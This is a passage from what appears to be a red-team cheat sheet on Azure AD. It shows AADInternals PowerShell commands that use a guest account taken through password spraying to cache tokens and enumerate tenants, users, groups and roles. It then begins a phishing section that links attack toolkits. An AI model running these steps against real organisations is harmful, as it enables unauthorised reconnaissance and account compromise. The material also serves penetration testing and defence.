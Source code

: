 ### [Recon (Guest)](https://o365blog.com/post/quest_for_guest/)
Use guest account from password spraying

```
# Prompt for credentials and retrieve & store access token to cache
Get-AADIntAccessTokenForAADGraph -SaveToCache

# Prompt for credentials and save the token to cache
Get-AADIntAccessTokenForAzureCoreManagement -SaveToCache

# List the user's tenants
Get-AADIntAzureTenants
```

Stage 1: If we know the user id or upn of any user of the tenant, we can list all the groups (including teams and roles) the user is member of. As a result, we now know the ids of those groups, and we can retrieve the list of members of those groups.

```
# Invoke the user enumeration
$results = Invoke-AADIntUserEnumerationAsGuest -GroupMembers -Manager -Subordinates -Roles
# List group information
$results.Groups | Select-Object displayName,id,membershiprule,description
$results.Groups | Select-Object displayName,id,members
```
Now we have the list of all external users of the tenant

Stage 2: Now we can retrieve the same information (groups and their members) for each user found at stage 1!
```
# Invoke the user enumeration for the known user including group members
$results = Invoke-AADIntUserEnumerationAsGuest -UserName "user@company.com" -GroupMembers -Manager -Subordinates -Roles
# List group information
$results.Groups | Select-Object displayName,id,membershiprule,description

# Listing the group information reveals another typical configuration. 
There is a dynamic group for all organisation members: this allows guest users to access all users of the tenant

# List role information
$results.Roles | Select-Object id,members
```
#### Phishing - Azure App 

##### Resources

https://github.com/mdsecactivebreach/o365-attack-toolkit

https://www.mdsec.co.uk/2019/07/introducing-the-office-365-attack-toolkit/

https://www.youtube.com/watch?v=JZjrvpacfDY

1. Background - requires victim to own a web application hosted by an Azure tenant. 
